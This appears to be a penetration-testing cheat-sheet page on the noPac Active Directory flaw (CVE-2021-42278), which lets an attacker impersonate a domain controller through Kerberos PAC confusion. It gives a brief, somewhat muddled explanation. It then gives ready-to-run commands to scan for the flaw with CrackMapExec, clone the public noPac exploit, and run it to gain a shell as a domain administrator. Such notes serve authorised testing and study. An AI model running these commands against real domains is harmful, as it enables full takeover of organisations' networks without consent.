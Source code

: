 # noPac - CVE-2021-42278

> * Release Date: Nov 9, 2021
> * Impact: Elevation of Privilege
> * CVSS score: 8.8

**Affected products**

<figure><img src="../../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

## Brief

{% hint style="danger" %}
This CVE is a security **bypass vulnerability** that is caused by **Kerberos’s PAC confusion** and impersonation of domain controllers.

It allows potential attackers to impersonate domain controllers by requesting TGT’s from Kerberos without a PAC, and the moment TGT is issued without issuing PACs, the attacker can impersonate as a highly privileged user.

Now, to get a DC to add a PAC when a service ticket (ST) was requested using a TGT without a PAC was achieved by configuring the “altSecurityIdentities“ attribute.

This process involves modifying the altSecurityIdentities attribute of an account in a foreign domain to Kerberos:\[samaccountname]@\[domain] to impersonate that user.
{% endhint %}

## Scan | Exploit

```bash
# scan
cme smb $ip -u $user -p $pass -M noPac

# exploit
git clone https://github.com/Ridter/noPac
cd noPac/
ls -al
python3 noPac.py $domain/$username:$password -dc-ip $ip -shell --impersonate $administrator_name -use-ldap
# enjoy :)
```
